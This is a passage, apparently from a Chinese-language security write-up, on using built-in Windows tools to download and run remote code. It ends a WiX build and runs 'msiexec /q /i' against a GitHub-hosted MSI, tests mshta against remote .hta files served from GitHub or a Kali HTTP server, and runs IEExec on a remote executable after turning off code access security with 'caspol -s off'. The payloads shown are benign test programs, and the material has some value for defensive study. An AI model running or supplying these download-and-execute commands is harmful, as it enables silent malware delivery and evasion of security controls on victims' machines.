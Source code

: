```
    </InstallExecuteSequence>

  </Product>
</Wix>
```

将其编译，生成msi文件，命令如下：


`candle.exe msigen.wix`

`light.exe msigen.wixobj`


生成test.msi

**实现功能：**

`msiexec /q /i https://github.com/3gstudent/test/raw/master/test.msi`

**注：**

执行后需要手动结束进程msiexec.exe



## 0x04 不可用方法
---

### 1、mshta

不支持github下载

**验证：**

`mshta https://raw.githubusercontent.com/3gstudent/test/master/calc.hta`

支持http

**验证：**

本地测试，kali开启http服务：

`python -m SimpleHTTPServer 80`

`mshta http://ip/calc.hta`

## 0x05 补充
---

### 1、IEExec

需要管理员权限


```
cd C:\Windows\Microsoft.NET\Framework\v2.0.50727\
caspol -s off
IEExec http://github.com/3gstudent/test/raw/master/putty.exe
```
